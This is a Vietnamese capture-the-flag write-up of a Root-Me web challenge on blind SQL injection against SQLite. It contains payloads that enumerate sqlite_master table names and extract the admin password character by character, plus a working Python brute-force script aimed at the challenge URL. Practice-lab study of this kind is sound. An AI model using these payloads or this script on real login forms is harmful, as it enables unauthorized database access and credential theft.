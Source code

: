 Ồ Nô, bị filter mất rùi, mình không thử sử dụng lệnh UNION để khai thác nữa . Nhưng không sao không sao, vẫn còn nhiều cách khác, trước tiên mình cần phỉa xác định độ dài và tên của table thông qua ``sqlite_master`` , đây đuợc coi là master table giữ thông tin quan trọng về các bảng trong database.

Payload:
```
user1' and (SELECT hex(substr(tbl_name,{i},1)) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('{c}') -- -
```
Bời vì đây là blind injection, tức là kết quả trả về chỉ cho mình biết payload của mình có thành công hay không, vậy mình đã viết script để brute force với cái payload trên cụ thể là so sánh từng kí tự dưới dạng hex với từng kí tự của ``tbl_name`` trong ``sql_master``

Payload:
```
admin' and substr((select password from users where (username='admin')),{i},1)='{c}'--
```
Script:
```
#!python3
import requests
import string
sess=requests.Session()
url='http://challenge01.root-me.org/web-serveur/ch10/'
payload=string.printable
passwd=''   
i=1
while True:
    for c in payload:
        # Extract ra ten cua table
        # table={
        #     'username':f"user1' and (SELECT hex(substr(tbl_name,{i},1)) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('{c}') -- -",
        #     'password':'pass'
        # }
 
        # Extract ra password cua admin
        data={
            'username':f"admin' and substr((select password from users where (username='admin')),{i},1)='{c}'--",
            'password':'pass'
        }
        r=sess.post(url,data=data)
        if "Welcome back" in r.text:
            passwd+=c
            i+=1
            print(passwd)
            break
```
![img](./img/5.png)

